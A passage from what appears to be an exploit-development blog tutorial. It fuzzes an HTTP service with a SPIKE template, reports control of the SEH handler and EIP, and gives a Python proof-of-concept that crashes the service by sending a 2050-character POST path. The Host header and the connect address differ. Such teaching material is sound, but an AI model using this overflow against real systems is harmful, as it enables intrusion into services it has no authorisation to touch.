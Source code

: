 
[![](https://2.bp.blogspot.com/-yoXMhpumoeY/VDQzkAzw0oI/AAAAAAAAAWs/DfWD8u23Qlk/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_005.png)](https://2.bp.blogspot.com/-yoXMhpumoeY/VDQzkAzw0oI/AAAAAAAAAWs/DfWD8u23Qlk/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_005.png)


So we know we can now control the SEH handler and subsequently EIP and we also have control over EBX. Lets make a PoC to test our theory. If we look at the request that corresponds to request 30 in the command line we see this:


```
Done with read
Fuzzing Variable 0:30
Variablesize= 2050
Reading packet
```



### Creating the POC

So lets make a PoC that sends 2050 A's in the right part of the POST request. Opening up our post.spk file, we can see this corresponds to the first "string\_variable" line:


```c++
s_string("POST /");
s_string_variable("enlighten/calais.asmx/Enlighten");
s_string(" ");
```


Thus the request we should send should look like "POST /\*long string of A's here\*", sans the quotes:


```python
#!/bin/python
import socket

overflow = "A" * 2050
buffer = "POST /" + overflow + " HTTP/1.1\r\n"
buffer += "User-Agent: Wget/1.13.4\r\n"
buffer += "Host: 192.168.99.142:8080\r\n"
buffer += "Accept: \*/\*\r\n"
buffer += "Connection: Keep-Alive\r\n"
buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
buffer += "Content-Length: 4"
buffer += "\r\n\r\n"
buffer += "licenseID=string&content=string&paramsXML=string"

handle = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
handle.connect(("192.168.82.129", 8080))
handle.send(buffer)
handle.close()
```
